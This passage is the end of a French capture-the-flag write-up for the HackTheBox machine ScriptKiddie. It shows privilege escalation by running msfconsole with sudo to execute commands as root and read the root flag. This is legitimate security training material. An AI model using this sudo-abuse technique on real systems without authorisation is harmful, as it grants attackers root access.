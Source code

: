 En faisant `sudo msfconsole` nous pouvons toujours utiliser des commandes du système et cette fois en tant que root.

> whoami

```
msf6 > whoami
root
```

Nous pouvons donc naviguer dans le dossier `root` et cat le flag qui se trouve dans le fichier `root.txt`.

> cd /root
>
> cat root.txt

```
msf6 > cat root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXX
```



Cela conclut donc la box <u>ScriptKiddie</u>  sur la plateforme <u>HackTheBox</u>
<u>Ethost.</u>
